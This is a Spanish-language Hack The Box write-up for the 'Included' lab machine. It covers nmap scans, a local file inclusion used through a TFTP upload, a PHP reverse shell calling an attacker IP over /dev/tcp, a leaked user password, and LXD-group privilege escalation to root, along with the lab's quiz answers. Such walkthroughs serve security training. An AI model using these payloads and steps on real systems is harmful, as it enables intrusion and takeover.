 ```yaml
---
title: Writeup included - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - included
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina included en Hack The Box.
keywords:
  - writeup included
  - hack the box included
  - resolución máquina included
  - included hack the box
  - htb included
---
```

---------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Linux/Included)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=QSMmb3mHKuc)|[Parte2](https://www.youtube.com/watch?v=QHaFBlSVNgs)|[Parte3](https://www.youtube.com/watch?v=7Bh1whd4nec)
- 🧠 **Explicación resumida**: 

------

#veryeasy #linux #nmap #ping #tratamientotty #reverseshell #lfi #pathtraversal #lxd #tftp #ls-la #python3httpserver 

---

# Guided Mode

1)¿Qué servicio se está ejecutando en la máquina de destino a través de UDP?
	tftp

2)¿A qué clase de vulnerabilidad se enfrenta la página web alojada en el puerto 80?
	local file inclusion

3)¿Cuál es la carpeta del sistema por defecto que utiliza TFTP para almacenar archivos?
	/var/lib/tftpboot/

4)¿Qué archivo interesante se encuentra en la carpeta del servidor web y puede utilizarse para el Movimiento Lateral?
	.htpasswd

5)¿Cuál es el grupo del que forma parte el usuario Mike y que puede ser explotado para la Escalada de Privilegios?
	lxd

6)Cuando utilizamos una imagen para explotar un sistema mediante contenedores, buscamos una distribución muy pequeña. Nuestra favorita para esta tarea tiene nombre de montaña. ¿Cómo se llama esa distribución?
	Alpine

7)¿Qué bandera ponemos al contenedor para que tenga privilegios de root en el sistema anfitrión?
	security.privileged=true

8)Si el sistema de archivos raíz está montado en /mnt en el contenedor, ¿dónde se puede encontrar la bandera raíz en el contenedor después de montar el sistema anfitrión?
	/mnt/root

----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.145
nmap -sS -vvv -n -Pn --min-rate 5000 -p- --open 10.129.207.145 -oG allports
nmap -sCV -p80 10.129.207.145 -oN target
```

![[Included2.png]]
![[Included1.png]]
 
*TTL:* Maquina linux por su cercania a 64
*Puertos*
	`80` HTTP apache


### Las preguntas de HTB nos decia que hagamos un escaneo en UDP

```shell
nmap -sU -Pn -n -vvv --top-ports 200 10.129.207.145 -oN udp-scan
```


![[Included6.png]]
*Puertos:*
`68` dhcpc
`69` tftp

------
# [[Whatweb-wappalyzer]]


![[Included4.png]]
No nos da ninguna infromacion relevante

--------
# [[LFI(Local File Inclusion)]]
Entramos a la pagina web
![[Included7.png]]
Vemos lo de file=home.php, asi que vamos a probar un [[Path traversal]]

http://10.129.207.145/?file=../../../../../../../..//etc/hosts

![[Included5.png]]
Podemos ver el contenido del /etc/hosts asi que se es ta produciendo un [[LFI(Local File Inclusion)]]

### Hacemos pruebas para ver si interprea archivos .php

Subimos un archivo test.php con [[tftp]]
```php
<?php echo "Hola"; ?>
```

Para conectarnos al servicio usamos`tftp 10.129.117.155 69` y luego para subir el archivo `put test.php`
![[Included8.png]]

![[Included9.png]]
Como podemos ver se interpreto perfectamente

----------
# [[Reverse shell]]

Creamos el archivo shell.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Y lo vamos a subir con [[tftp]]
Para conectarnos al servicio usamos`tftp 10.129.117.155 69` y luego para subir el archivo `put shell.php`
![[Included8.png]]

Y para que se ejecute vamos a leer el archivo con el [[LFI(Local File Inclusion)]]
Esta ruta la sabemos por que es el directorio predeterminado en el cual tftp sube los archivos
http://10.129.117.155/?file=../../../../../../..///var/lib/tftpboot/shell.php
Mientras estamos en escucha con [[nc -nlvp 443]] 

![[Included10.png]]
Y ya estamos adentro como el usuario www-data

-------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios al usuario mike 

Listando todos los archivos del directorio con [[ls]] `ls -la` Pudimos ver el archivo oculto de *.htaccess* y al catearlo vemos que nos da un pregunto usuario y contraseña

![[Included11.png]]
mike:Sheffield19
Con el comando `su mike` y ponemos la contraseña *Sheffield19*
![[Included12.png]]
Y ya somos el usuario mike

----------
# Escalada al usuario root con [[Lxd contenedor con montura]]

[Articulo hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html)

Para descargar la imagen y crearla en nuestra maquina
```
git clone https://github.com/saghul/lxd-alpine-builder  
cd lxd-alpine-builder  
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine  
sudo ./build-alpine -a i686
```
Despues nos pusimos en escucha con [[python3 -m http.server]] . Y desde la maquina victima con `wget 10.10.14.8:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz` descargamos la imagen

#### Ahora para levantar el contenedor:
```shell
lxc image import ./alpine*.tar.gz --alias myimage  
lxd init  
lxc init myimage mycontainer -c security.privileged=true  
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true  
lxc start mycontainer  
lxc exec mycontainer /bin/bash
```
Una vez hecho esto ya podemos ya podemos catear las flags por que somos root

![[Included13.png]]

----------
# Notas

**Alpine Linux** es una distribución de Linux muy ligera y segura, diseñada para ser pequeña (unos pocos MB) y eficiente.  
	Es muy usada en contenedores Docker por su velocidad, bajo consumo de recursos y simplicidad.  
	Viene con BusyBox y musl libc, lo que la hace ideal para entornos minimalistas o de hacking.

-------------
# Creditos

[Writeup de 13xch](https://medium.com/infosec-watchtower/hackthebox-write-up-included-8e54530c622c)